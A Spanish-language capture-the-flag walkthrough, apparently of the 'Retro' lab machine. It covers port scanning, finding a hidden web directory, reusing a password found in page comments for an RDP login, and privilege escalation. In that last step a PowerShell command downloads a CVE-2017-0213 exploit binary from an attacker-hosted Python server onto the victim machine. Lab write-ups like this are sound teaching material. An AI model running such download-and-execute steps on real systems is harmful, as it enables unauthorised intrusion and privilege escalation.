

# Retro  

## Escaneo de puertos  

```bash
nmap -Pn 10.10.125.255
```  

-Pn: se salta el primer ping  

  

## Encontramos directorios ocultos  

Utilizamos la herramienta dirbuster y en el servicio web escaneamos las diferentes salidas que puede tener y encontramos lo siguiente:  

  

Entramos en el directorio de `/retro` y nos encontramos la siguiente web:  

  

## Búsqueda de credenciales  

Mirando por la página, vemos que hay un usuario llamado `Wade`, creador del foro. En los comentarios de la página, encontramos que su contraseña es `parzival`.  

  
  

## Remmina  

Con la herramienta Remmina intentamos conectarnos al PC del usuario con las credenciales anteriores. Una vez conectados, vemos en el escritorio un archivo llamado `user.txt`, que contiene la primera flag.  

  

Abrimos la terminal para comprobar si estamos como root o usuario. Vemos que estamos como usuario Wade.  

  

## Escalada de privilegios  

Descargamos el archivo `CVE-2017-0213_x64.zip`, lo descomprimimos y obtenemos un `.exe`. Luego montamos un servidor Python con el siguiente comando:  

```bash
python -m http.server 80
```  

En Remmina, abrimos PowerShell y ejecutamos:  

```bash
Invoke-WebRequest -Uri http://10.23.40.179/CVE-2017-0213_x64.exe -OutFile C:\Users\Wade\Desktop\exploit.exe
```  

  

Esto coloca un `.exe` en el escritorio que, al ejecutarlo, escala los privilegios automáticamente.  

  

Una vez en Admin, revisamos el escritorio del Administrador para encontrar la flag en el archivo `root.txt.txt`.
